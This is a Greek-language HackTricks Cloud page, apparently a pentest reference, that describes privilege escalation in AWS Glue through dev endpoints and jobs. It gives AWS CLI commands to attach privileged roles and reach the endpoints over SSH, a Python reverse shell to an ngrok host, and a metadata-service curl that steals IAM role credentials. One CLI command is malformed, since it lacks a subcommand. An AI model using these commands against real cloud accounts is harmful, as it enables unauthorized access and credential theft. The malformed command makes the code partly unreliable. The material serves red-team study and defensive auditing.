 # AWS - Εscalation προνομίων στο AWS Glue

<details>

<summary><strong>Μάθετε χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν **να δημιουργήσουν ένα νέο σημείο ανάπτυξης AWS Glue**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να υιοθετηθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το σημείο.

Μετά την εγκατάσταση, ο **επιτιθέμενος μπορεί να συνδεθεί μέσω SSH στην κατάσταση του σημείου**, και να κλέψει τα διαπιστευτήρια IAM του ανατεθειμένου ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για λόγους αόρατης λειτουργίας, συνιστάται να χρησιμοποιήσετε τα διαπιστευτήρια IAM από μέσα στην εικονική μηχανή Glue.

**Πιθανή Επίπτωση:** Ανύψωση προνομίων στον καθορισμένο ρόλο υπηρεσίας Glue.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτήν την άδεια μπορούν **να τροποποιήσουν ένα υπάρχον ανάπτυξης Glue** τερματικό SSH key, **ενεργοποιώντας την πρόσβαση SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελέσει εντολές με τα προνόμια του ρόλου που είναι συνδεδεμένος με το τερματικό.
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανή Επίδραση:** Ανέλιξη προνομίων στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Οι χρήστες με **`iam:PassRole`** σε συνδυασμό με είτε **`glue:CreateJob` ή `glue:UpdateJob`**, και είτε **`glue:StartJobRun` ή `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν ένα AWS Glue job**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της δουλειάς. Οι δυνατότητες της δουλειάς περιλαμβάνουν την εκτέλεση αυθαίρετου κώδικα Python, ο οποίος μπορεί να εκμεταλλευτεί για τη δημιουργία αντίστροφου κελύφους. Αυτό το αντίστροφο κέλυφος μπορεί στη συνέχεια να χρησιμοποιηθεί για την εξαγωγή των **διαπιστευτηρίων IAM** του ρόλου που είναι συνδεδεμένος με τη δουλειά Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες βασισμένες στα δικαιώματα εκείνου του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανή Επίδραση:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Απλά με την άδεια ενημέρωσης, ένας επιτεθείς θα μπορούσε να κλέψει τα IAM διαπιστευτήρια του ήδη συνδεδεμένου ρόλου.

**Πιθανή Επίδραση:** Privesc στον ρόλο υπηρεσίας glue που έχει συνδεθεί.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
